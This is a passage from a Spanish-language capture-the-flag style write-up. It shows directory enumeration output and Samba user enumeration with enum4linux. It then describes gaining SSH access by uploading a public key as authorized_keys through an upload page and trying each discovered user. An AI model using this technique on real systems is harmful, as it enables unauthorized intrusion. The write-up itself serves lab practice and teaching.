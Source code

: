 ```ruby
/.php                 (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 2410]
/upload.php           (Status: 200) [Size: 56]
/readme.txt           (Status: 200) [Size: 78]
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
Progress: 191519 / 882244 (21.71%)
===============================================================
Finished
===============================================================
```

Como vemos, hay un "readme.txt" que si entramos desde el navegador tiene esto:

```css
It may be that the file that is being uploaded is being uploaded in a .ssh/?
```

Esto significa que si realmente se sube en ".ssh", podemos subir nuestro "id_rsa.pub" con el nombre "authorized_keys" y conectarnos sin necesidad de clave, el problema es que necesitamos un usuario, por lo que podriamos probar en ver si encontramos algun usuario en el samba y ver si nos sirve.

```css
enum4linux <ip>
```

Luego de ejecutarlo veremos muchas cosas, pero lo mas importante es esta línea:

```css
S-1-22-1-1000 Unix User\root-false (Local User)
S-1-22-1-1001 Unix User\sambauser (Local User)
S-1-22-1-1002 Unix User\less (Local User)
S-1-22-1-1003 Unix User\passsamba (Local User)
```

Estos son los usuarios que hemos encontrado, por lo que ahora si subiremos el "id_rsa" como "authorized_keys" y luego nos conectaremos.

# INTRUSION

Para generar una clave "id_rsa" (en caso de que no la tengamos), debemos ejecutar en nuestra máquina atacante el comando `ssh-keygen`. Una vez ejecutado nos generará un archivo llamado "id_rsa" y "id_rsa.pub" en nuestro directorio `home` y metido en una carpeta llamada `.ssh`. Ahora que ya tenemos la clave simplemente la copiamos a algún lugar "comodo" para poder subirlo, lo haremos de la siguiente manera:

```css
cp ~/.ssh/id_rsa.pub ~/authorized_keys
```

Una vez hecho eso, subimos el archivo "authorized_keys" en la página. Ahora vamos al directorio `.ssh` donde se encuentra el archivo "id_rsa" y le damos permisos de ejecución ejecutando `chmod 600 id_rsa` y vamos probando cada uno de los usuarios encontrados de la siguiente manera:

```css
ssh -i id_rsa <user>@<ip>
```
